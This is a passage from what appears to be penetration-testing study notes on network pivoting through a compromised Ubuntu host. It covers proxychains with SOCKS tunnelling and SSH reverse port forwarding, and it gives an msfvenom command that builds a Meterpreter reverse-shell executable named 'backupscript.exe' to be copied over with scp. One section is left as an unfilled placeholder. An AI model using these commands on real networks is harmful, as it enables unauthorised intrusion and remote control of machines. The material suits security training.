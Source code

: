 Also, the full TCP scan without Ping on an entire network will take a long time
{% endhint %}

We can simply run these commands now:

```bash
proxychains nmap -v -Pn -sT <target-local-range>
proxychains msfconsole
proxychains xfreerdp /v:<target-local-range> /u:user /p:pass
```

{% hint style="success" %}
This technique is called **Dynamic Port Forwarding with SSH and SOCKS Tunneling.**
{% endhint %}

### Using Meterpreter Port Forwarding Module

{% hint style="info" %}
INSERT CONTENT HERE FROM
{% endhint %}

## Remote/Reverse Port Forwarding

{% hint style="info" %}
**Remote/Reverse Port Forwarding with SSH**

**The following technique consists of creating a route for the data to be initiated from the internal network to our attacking machine, through  the compromised Ubuntu server, which acts as the pivot.**
{% endhint %}

Now the other way around. What if we want a reverse shell from a host within the internal "unreachable" network?

The idea is:

1. Make a Reverse Shell payload to initiate a connection from the compromised  internal host, to the pivot (in the DMZ).
2. Forward the connection coming from the Reverse Shell port, to the external port of our attacking machine.

So finally the compromised DMZ machine, is really acting as a pivot: It redirects and manages traffic between the attack/defense, Luca Modric Style.

For our case, the reverse shell payload is an Executable crafted with `msfvenom`.

### Preparing and Transferring the Reverse Shell

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

We can then transfer the output executable to the ubuntu machine using whatever method. for now, we'll use `scp` since we have the `SSH` credentials:

```shell-session
scp backupscript.exe ubuntu@<publicipAddressofTarget>:~/
```
